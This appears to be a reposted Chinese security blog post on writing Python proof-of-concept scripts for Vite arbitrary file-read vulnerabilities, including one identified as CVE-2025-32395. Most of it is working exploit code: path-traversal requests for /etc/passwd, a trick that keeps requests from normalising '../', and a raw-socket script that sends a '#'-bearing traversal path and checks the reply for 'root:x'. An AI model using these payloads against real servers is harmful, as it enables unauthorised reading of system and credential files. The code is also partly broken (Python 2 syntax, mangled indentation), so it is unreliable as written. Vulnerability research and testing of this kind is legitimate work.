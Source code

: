 #  python POC发包高级技巧  
jylove  安全洞察知识图谱   2025-06-30 00:27  
  
**免责声明**  
 由于传播、利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号安全洞察知识图谱及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
## 1工具介绍  
### 一 正常发包  
  
刚好最近有个热门的漏洞Vite系列的漏洞，通过该漏洞我们来学习一下  
通过我们用python写POC的时候，我们大部分都是利用python的request的模块来进行发包利用的  
正常情况下都是这样写的POC  
```
response = requests.get(url_base + "/@fs/root/vite-project/?/../../../../../etc/passwd?import&?raw", proxies=proxies,verify=False,headers=headers)
```  
  
其中我们的路径要是比较正常的时候我们通过request模块发包的时候，我们就是能够正常把这个路径发出去的，我们通过bp抓包验证一下  
  
![1698X670/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAMpMXLaib8zwcWykHVTzkibr3Qhsv3ic6wzOpemMnq8w9KlD3NfmMrFs7w/640?wx_fmt=png&from=appmsg "")  
  
可以看到bp抓到的路径和我们想发出去的路径是一样的，接下来我们假设我们需要发送的路径是这样的  
```
response = requests.get(url_base + "/../../../../../etc/passwd?import&?raw", proxies=proxies,verify=False,headers=headers)
```  
  
再次使用request模块发包的时候，用bp抓包看下  
  
![1701X696/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAyiaV3jmGHTJckeTiaObGseYm42hE0WmJjKxRTnDh5OfibwkfG5WD8Hnyg/640?wx_fmt=png&from=appmsg "")  
  
### 二 进阶发包技巧  
  
我们在bp中抓到的包的路径就是变成了"/etc/passwd?import&?raw"，"/../../"在requests中会被吞噬掉，导致我们无法完成利用，这也是在写POC中经常不注意到的一个点，明明手工利用的是时候可以利用，怎么写脚本的时候不行呢，这种时候就可以bp抓包看看想要发送的数据包是不是跟抓到的一样啦。像这种利用的路径，我们还是得用python来实现时怎么实现呢，干货来了  
```
    check_url=url_base + "/../../../../../etc/passwd"
    s = requests.Session()
    r = requests.Request(method='GET', url=check_url)
    prep = r.prepare()
    prep.url = check_url
result= s.send(prep, verify=False, timeout=10,)
    print result.text
```  
  
注意别使用bp代理抓包，经过bp后发送出去的包也是会被吞噬掉“/../../"，我们直接通过wireshark捕获流量验证一下  
  
![1660X603/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAtHpZPibdtJMqYClKic0Nwj46RsRt6xI0AYAdqFMQePNCA85lsMm7vHCg/640?wx_fmt=png&from=appmsg "")  
  
可以看到wireshark发包是能正常刚才的方法把这个路径发送出去的"/../../../../../etc/passwd"  
  
而正常的request模块发包模块则变成了"/etc/passwd?import&?raw"  
### 三 高阶发包技巧  
  
接下来我们来看这个漏洞Vite 文件读取漏洞(CVE-2025-32395)  
看官方的POC是这种形式的  
  
```
"/@fs/root/vite-project/#/../../../../../etc/passwd"
```  
  
路径中带了#，我们用刚才的两种方式发包测试一下  
```
    方式1：
    lin_response = requests.get(url_base + "/@fs/root/vite-project/#/../../../../../etc/passwd", proxies=proxies,verify=False,headers=headers)
    方式2：
    check_url=url_base + "/@fs/root/vite-project/#/../../../../../etc/passwd"
    s = requests.session()
    r = requests.Request(method='GET', url=check_url)
    prep = r.prepare()
    prep.url = check_url
result= s.send(prep, verify=False, timeout=10,proxies=proxies)
    print result.text
```  
  
通过bp代理和wireshark抓包看下，抓到的包的路径都变成了/@fs/root/vite-project，"/#/../../../../../etc/passwd"这个路径都丢失了，这是因为根据 RFC 3986 标准，# 在 URL 中定义为 片段标识符（Fragment），浏览器和 HTTP 客户端库（如 requests）会默认将其后的内容截断，不会发送到服务端，这意味着：若 # 不编码，其后的路径永远无法到达服务端。所以这个无法通过requests相关脚本来实现  
  
![876X655/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAqcsRSLBfyp70ywan0m2YsKkCXZ2s4U1FLlJXsMx0dyHwoV3GK9VGnA/640?wx_fmt=png&from=appmsg "")  
  
![2140X373/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAzw5ylf0UJaPjDibxL5bYjoHjKFcm7vMvib22KEz6dlGsib0IH6tCNPDdg/640?wx_fmt=png&from=appmsg "")  
  
接下来就得使用我们的最后一个终极大法了，绕过 HTTP 协议限制，使用原始 Socket 控制：直接通过 socket 库发送字节流，避免高级 HTTP 库（如 urllib2 或 requests）自动处理 #  
  
通过wireshark抓包，看下我们的路径已经完整发出去了，服务器也能完成处理  
  
![2401X357/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAIXicwo3EwNmGQKG2R7WsB87zsPeUoyknI1OXNXPlPdBCKbFRaalRicVQ/640?wx_fmt=png&from=appmsg "")  
  
通过回显，我们也能看到漏洞能完成利用  
  
![1288X432/image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAYecFxZDWDBibayZMdChGQ3gsvopbR5XgykYVDaPgZfpS1noKjJdz4icw/640?wx_fmt=png&from=appmsg "")  
  
关键代码如下  
```
import socket
from urlparse import urlsplit
    parsed_url = urlsplit(url_base)
    netloc = parsed_url.netloc
    paths = ["/@fs/root/vite-project/#/../../../../../etc/passwd"]
if':'in netloc:
        host, port = netloc.split(':', 1)
        port = int(port)
else:
        host = netloc
# 根据协议设置默认端口
if parsed_url.scheme == 'http':
            port = 80
elif parsed_url.scheme == 'https':
            port = 443
else:
            port = None
for path in paths:
        request = (
"GET {path} HTTP/1.1\r\n"
"Host: {host}:{port}\r\n"
"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36\r\n"
"Connection: close\r\n"
"\r\n"
        ).format(path=path, host=host,port=port)
# 发送请求
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.sendall(request.encode())
# 接收响应
        response = s.recv(4096)
if"root:x"in response.decode():
print url_base,path,response.decode()
```  
### 四 后言  
  
各位还有什么技巧可以分享交流一下的么，大家一起共同进步  
  
转自火线Zone社区，原文作者jylove，如有侵权请联系删除谢谢  
## 2免费社区  
  
安全洞察知识图谱星球是一个聚焦于信息安全对抗技术和企业安全建设的话题社区，也是一个  
**[免费]**  
的星球，欢迎大伙加入积极分享红蓝对抗、渗透测试、安全建设等热点主题  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/PDVoxXx6Rh8aia4mibs0I8I42MrYYOSE2DVEpVpPHvxufMGR0yufpgouwIXEl7H5eLm0MgolGFQMDFIrKLTxaYIQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/PDVoxXx6RhicGEQtOd3p5iaFt1JhVGxiaSAUYNIF4tgKgmLPuuZJuEQ1iaf1TNcJgiaImlgGb8lxWyf8NGFNkZr3e1A/640?wx_fmt=jpeg&from=appmsg "")  
  
  
